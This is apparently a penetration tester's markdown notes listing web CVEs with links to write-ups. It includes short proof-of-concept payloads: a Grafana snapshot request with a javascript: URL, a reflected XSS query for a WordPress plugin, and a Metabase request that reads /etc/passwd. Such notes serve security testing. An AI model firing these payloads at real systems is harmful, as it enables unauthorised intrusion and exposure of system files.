 ## CVE-2020-11022/CVE-2020-11023

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

## CVE-2020-11110
https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

* version : Grafana v6.2.5

* authentication : v6.2.5 not required to be authenticated

* send post request to /api/snapshots with the following json body
```
{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```





## CVE-2021-24169
WordPress Plugin Advanced Order Export For WooCommerce 3.1.7 - Reflected Cross-Site Scripting (XSS)

```
wp-admin/admin.php?page=wc-order-export&tab=</script><script>alert(1)</script>
```

## CVE-2021-40875 
Improper Access Control in Gurock TestRail versions ≤ 7.2.0.3014 results in sensitive file exposure

* /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure hardcoded credentials, API keys, or other sensitive data.


## CVE-2021-26084 
Remote Code Execution on Confluence Servers

https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md

## CVE-2021–24563 Unauthenticated Stored XSS [Frontend Uploader <= 1.3.2]
https://medium.com/pentesternepal/cve-2021-24563-unauthenticated-stored-xss-frontend-uploader-1-3-2-8522e0890833


## CVE-2021-38647 is an unauthenticated RCE vulnerability effecting the OMI agent as root.
https://github.com/horizon3ai/CVE-2021-38647

## Metabase 敏感信息泄露 CVE-2021-41277
```
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host:
```




